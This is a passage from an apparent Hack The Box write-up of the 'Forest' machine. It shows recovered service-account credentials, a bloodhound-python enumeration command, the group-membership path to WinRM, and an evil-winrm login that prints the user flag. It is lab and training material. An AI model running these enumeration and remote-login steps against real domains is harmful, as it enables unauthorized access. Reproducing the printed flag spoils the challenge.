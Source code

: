 So the first pair of credentials that we have are:

```
svc-alfresco / s3rvice
```

#### Bloodhound analysis 

Using the credentials we managed to discover I run a bloodhound-ingestor to gather data.
```
~/htb/boxes/OSCP-PREP/Forest ❯ bloodhound-python -d htb.local -u 'svc-alfresco' -p 's3rvice' --zip -c All -ns 10.129.8.176
[...snip...]
```

###### Hint

I have since stopped using this particular ingestion agent, because most newer boxes now have the CE (Community Edition) of bloodhound. There is a new version of this particular ingestor by the name of bloodhound-ce-python, but I just use rusthound-ce myself.
https://github.com/g0h4n/RustHound-CE

I have found that bloodhound-python might miss some things on this box, so I recommend that you also use rusthound-ce. 

Back to the box.

We learn that svc-alfresco is part of the Service Accounts group (this is also denoted by the fact that it has a username prefix of svc) which itself is a member of the Privileged IT Accounts which are then a member of the Remote Management Users and Account Operator groups. 

To put it simply:
```
svc-alfresco - member of - > Service Accounts (Group) - member of - > Privileged IT Accounts (Group)|- member of - 
													|
													-> Remote Management Users (Group)
													|							
													-> Account Operator (Group)
```
This means we can use winrm to login into the box.


#### user.txt

```bash
~/htb/boxes/OSCP-PREP/Forest/bh ❯ evil-winrm -i htb.local -u svc-alfresco -p 's3rvice'
                                                     
Evil-WinRM shell v3.7                                                                                                                                                                                              
                                                                                                                                                                                                                   
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                            
                                                                                                                                                                                                                   
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                       
                                                                                                                                                                                                                   
Info: Establishing connection to remote endpoint                                                                                                                                                                   
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type C:\Users\svc-alfresco\Desktop\user.txt
eb70021e85f5435b71da8989c174be5f
```
